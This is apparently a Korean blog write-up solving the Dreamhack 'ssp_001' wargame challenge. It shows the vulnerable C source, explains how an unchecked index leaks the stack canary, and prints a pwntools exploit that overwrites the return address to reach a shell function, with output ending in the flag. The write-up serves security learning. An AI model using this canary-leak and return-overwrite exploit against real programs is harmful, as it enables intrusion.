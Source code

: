 ```yaml
---
title: "[Dreamhack] ssp_001 문제 풀이"
date: "2024-09-25"
tags: ["dreamhack", "system_hacking", "wargame"]
draft: false
summary: "용어: SSP가 있다. 하지만 Canary를 곁들인."
---
```


# 문제 개요

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}
void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(30);
}
void get_shell() {
    system("/bin/sh");
}
void print_box(unsigned char *box, int idx) {
    printf("Element of index %d is : %02x\n", idx, box[idx]);
}
void menu() {
    puts("[F]ill the box");
    puts("[P]rint the box");
    puts("[E]xit");
    printf("> ");
}
int main(int argc, char *argv[]) {
    unsigned char box[0x40] = {};
    char name[0x40] = {};
    char select[2] = {};
    int idx = 0, name_len = 0;
    initialize();
    while(1) {
        menu();
        read(0, select, 2);
        switch( select[0] ) {
            case 'F':
                printf("box input : ");
                read(0, box, sizeof(box));
                break;
            case 'P':
                printf("Element index : ");
                scanf("%d", &idx);
                print_box(box, idx);
                break;
            case 'E':
                printf("Name Size : ");
                scanf("%d", &name_len);
                printf("Name : ");
                read(0, name, name_len);
                return 0;
            default:
                break;
        }
    }
}
```

문제의 코드는 위와 같다. 문제를 간단히 설명하자면,

총 2곳에 BOF 취약점이 발생하고 보안 기법은 NX bits, Canary 총 2개가 걸려있는것을 확인할 수 있다.

`get_shell` 함수는 shell을 주는 함수이다. Return Address는 이걸로 선정하면 될 것 같다.

`P`는 위 array의 범위를 검증하지 않아서 BOF가 발생한다.

사용자가 입력한 값을 `box`의 index로 그대로 들어가게 되어 box 를 넘어 Canary 값을 leak 할 수 있다.

`E`에선 사용자가 입력한 길이만큼 name의 값을 넣을 수 있다.

첫번째 input에서 Return Address Overwrite가 가능할 정도의 긴 값(길이)를 넣고 두번째 input엔 buf(name) dummy 값 + canary + SFP dummy 값 + get_shell 함수의 주소를 넣어주면 끝난다.

**작성한 시나리오대로 익스플로잇 코드를 작성해보자.**
# 익스플로잇 코드 작성

```c
from pwn import *
#p = remote('host1.dreamhack.games', 21093)
p = process('./ssp_001')
elf = ELF('./ssp_001')

get_shell = elf.symbols['get_shell']
canary = b''
pause()
for i in range(131, 127, -1):
    p.sendlineafter(b'> ', b'P')
    p.sendlineafter(b"Element index : ", str(i))
    p.recvuntil(b"is : ")
    canary += p.recv(2)

canary = int(canary, 16)
print(f'canary: {hex(canary)}')

payload = b'A' * 64
payload += p32(canary)
payload += b'A' * 8
payload += p32(get_shell)

p.sendlineafter(b'> ', b'E')
p.sendlineafter(b"Name Size : ", '100')
p.sendlineafter(b"Name : ", payload)

p.interactive()
```

위 익스플로잇 코드는 위에서 설명한 그대로를 가져왔다.

`P`에서 1바이트씩만 값이 나와서 for 문을 사용해서 Canary를 합쳐주는 작업을 진행했다.

`E`는 `ebp ~ return address`까지 계산해서 여유있게 100bytes 로 정했다.

**작성한 코드로 익스플로잇을 진행해보자.**
# 익스플로잇!!

```bash
root@18b05c8ca88f:~/dh/ssp-01# python3 ex.py 
[+] Opening connection to host1.dreamhack.games on port 8930: Done
[*] '/root/dh/ssp-01/ssp_001'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Paused (press any to continue)
/root/dh/ssp-01/ex.py:11: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendlineafter(b"Element index : ", str(i))
canary: 0x20727a00
/root/dh/ssp-01/ex.py:27: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline('cat flag')
[*] Switching to interactive mode
DH{00c609773822372daf2b7ef9adbdb824}
```

# 알림

시간이 조금 애매해져서 이제부턴 문제 풀이만 올릴 예정임. 참고바람.

아마 지금 학교에서 하는 사이버 가디언즈 워게임 풀이로 올릴 것 같다는..